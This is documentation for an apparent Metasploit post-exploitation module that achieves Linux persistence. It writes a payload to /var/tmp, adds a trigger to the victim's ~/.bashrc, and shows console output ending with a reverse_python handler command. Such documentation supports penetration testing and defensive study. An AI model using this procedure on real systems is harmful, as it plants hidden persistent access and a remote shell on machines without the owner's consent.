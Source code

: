 # Documentation

## Description

  This module establishes persistence via the Linux Bash profile method.
  This module makes two changes to the target system.
  First, the module writes a payload to a directory (`/var/temp/` by default).
  Second, the module writes a payload execution trigger to the Bash profile (`~/.bashrc` by default).
  The persistent payload is executed whenever the victim user opens a Bash terminal.

## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 19 (x86_64) running GNU bash, version 5.0.3(1)-release

## Verification Steps

  1. Start `msfconsole`
  2. Get a Meterpreter session
  3. `use exploit/linux/local/bash_profile_persistence`
  4. `set SESSION [SESSION]`
  5. `run`
  6. On victim, open a new Bash terminal
  7. You should get a new session with the permissions of the exploited user account

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **BASH_PROFILE**

  The path to the target Bash profile. (default: `~/.bashrc`)

  **PAYLOAD_DIR**

  A writable directory file system path. (default: `/var/tmp`)

## Scenarios

```
msf5 > use exploit/linux/local/bash_profile_persistence
msf5 exploit(linux/local/bash_profile_persistence) > set SESSION 1
msf5 exploit(linux/local/bash_profile_persistence) > exploit

[*] Bash profile exists: /home/user/.bashrc
[*] Bash profile is writable: /home/user/.bashrc
[*] Created backup Bash profile: /root/.msf4/logs/persistence/192.168.1.191_20191128.130945_Bash_Profile.backup
[*] Writing '/var/tmp/IgHypGLMglheQ' (126 bytes) ...
[+] Wrote payload trigger to Bash profile
[!] Payload will be triggered when target opens a Bash terminal
[!] Don't forget to start your handler:
[!] msf> handler -H 0.0.0.0 -P 4444 -p cmd/unix/reverse_python
```
